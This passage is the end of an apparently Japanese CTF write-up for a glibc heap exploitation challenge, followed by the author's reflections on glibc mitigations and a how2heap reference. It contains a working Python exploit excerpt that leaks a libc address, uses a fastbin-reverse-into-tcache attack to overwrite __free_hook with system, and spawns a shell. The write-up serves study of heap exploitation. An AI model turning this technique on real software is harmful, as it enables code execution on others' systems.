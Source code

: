 ```python

    for i in range(2, 9):
        remove_person(s, 0, i)

    view_person(s, 1, 1)    # set person 11 to tmp_p
    remove_person(s, 1, 0)  # person 11 is freed
    remove_person(s, 0, 9)
    party(s, 1)
    # destroy_house(s, 1)

    libc_addr = view_house(s, 0) - main_arena_top
    logger.libc(libc_addr)

    for i in range(7):
        create_person(s, str(i), 0x18, "empty tcache")

    # fastbin reverse into tcache
    create_person(s, "/bin/sh", 0x18, p64(libc_addr + free_hook_libc))
    create_person(s, "/bin/sh", 0x18, "/bin/sh")
    create_person(s, "/bin/sh", 0x18, "/bin/sh")
    create_person(s, "/bin/sh", 0x18, p64(libc_addr + system_libc))

    destroy_house(s, 1)

    s.interactive()

```

## Flag

鯖が生きていたらやろうとしたけど生きていなかったのでローカルシェル取り太郎です、当日は起きたらチームメイトが瞬殺してました(俺の為に残すか迷っていたらしい)

## 感想

やたらとコマンドが多いのと、脆弱性部分がちょっと複雑なところ以外は2.29以降のfastbinからtcacheにチャンクを入れようとする問題と同じです(ex. [\*CTF 2019 - girlfriend](/@Xornet/ry6Pq7zkD))
glibc自体のセキュリティ機構がバージョン毎に強くなっているので脆弱性の隠し方を複雑にするか、tcacheへ戻る挙動を悪用する問題が増えそうな気がします
2.32でPartial Overwrite系が全滅しそうなので楽しみ(ではない)です

## 参考文献

* [how2heap/fastbin_reverse_into_tcache.c - github](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/fastbin_reverse_into_tcache.c): いつもの